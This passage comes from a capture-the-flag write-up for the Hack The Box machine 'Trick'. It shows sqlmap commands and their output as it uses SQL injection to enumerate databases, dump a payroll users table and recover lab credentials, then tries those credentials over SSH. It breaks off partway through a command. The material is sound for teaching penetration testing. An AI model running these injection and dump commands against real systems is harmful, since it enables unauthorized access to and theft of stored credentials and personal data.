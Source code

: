 		- `remo:TrulyImpossiblePasswordLmao123`
3. Tried to SSH w/ `remo:TrulyImpossiblePasswordLmao123`, failed

## SQLi Database Enumeration
1. Instead of bypassing login, enumerate the database
2. Login and intercept w/ burp, save request as `sqli.txt`
	![]({{ page.img_path }}Pasted%20image%2020220727044858.png)
3. Enumerate databases 
	```
	┌──(root💀kali)-[~/htb/trick/10.10.11.166/exploit]
	└─# sqlmap -r sqli.txt --output-dir=$(pwd)/sqlmap -p username --dbs
	
	available databases [2]:
	[*] information_schema
	[*] payroll_db
	
	```
4. Enumerate tables in database
	```
	┌──(root💀kali)-[~/htb/trick/10.10.11.166/exploit]
	└─# sqlmap -r sqli.txt --output-dir=$(pwd)/sqlmap -p username -D payroll_db --tables
	
	Database: payroll_db
	[11 tables]
	+---------------------+
	| position            |
	| allowances          |
	| attendance          |
	| deductions          |
	| department          |
	| employee            |
	| employee_allowances |
	| employee_deductions |
	| payroll             |
	| payroll_items       |
	| users               |
	+---------------------+
	```
4. Enumerate value in `users` table from `payroll_db` database
	```
	┌──(root💀kali)-[~/htb/trick/10.10.11.166/exploit]
	└─# sqlmap -r sqli.txt --output-dir=$(pwd)/sqlmap -p username -D payroll_db -T users --dump
	
	```
	![]({{ page.img_path }}Pasted%20image%2020220726234547.png)
	- `Enemigosss:SuperGucciRainbowCake`
5. Failed to SSH w/ `Enemigosss:SuperGucciRainbowCake`
6. Check current user
	```
	┌──(root💀kali)-[~/htb/trick/10.10.11.166/exploit]
	└─# sqlmap -r sqli.txt --output-dir=$(pwd)/sqlmap --users
	